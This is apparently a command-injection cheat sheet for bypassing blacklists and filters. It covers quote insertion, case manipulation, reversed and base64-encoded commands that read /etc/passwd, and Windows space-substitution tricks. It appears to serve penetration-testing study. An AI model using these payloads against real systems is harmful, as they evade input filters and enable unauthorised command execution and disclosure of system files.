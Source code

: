 ## Blacklisted Command Bypass

### Character Insertion

| Code                     | Description                                        |
|--------------------------|----------------------------------------------------|
| `' or "`                 | Total must be even                                 |
| `$@ or \`                | Linux only                                         |

### Case Manipulation

| Code                                              | Description                                        |
|---------------------------------------------------|----------------------------------------------------|
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                | Execute command regardless of cases                |
| `$(a="WhOaMi";printf %s "${a,,}")`                | Another variation of the technique                 |

### Reversed Commands

| Code                     | Description                                        |
|--------------------------|----------------------------------------------------|
| `echo 'whoami' | rev`    | Reverse a string                                   |
| `$(rev<<<'imaohw')`      | Execute reversed command                           |

### Encoded Commands

| Code                                                              | Description                                        |
|-------------------------------------------------------------------|----------------------------------------------------|
| `echo -n 'cat /etc/passwd | grep 33' | base64`                    | Encode a string with base64                        |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`      | Execute b64 encoded string                         |

# Windows

## Filtered Character Bypass

| Code                     | Description                                        |
|--------------------------|----------------------------------------------------|
| `Get-ChildItem Env:`     | Can be used to view all environment variables - (PowerShell) |

### Spaces

| Code                                     | Description                                        |
|------------------------------------------|----------------------------------------------------|
| `%09`                                    | Using tabs instead of spaces                       |
| `%PROGRAMFILES:~10,-5%`                  | Will be replaced with a space - (CMD)              |
| `$env:PROGRAMFILES[10]`                  | Will be replaced with a space - (PowerShell)       |
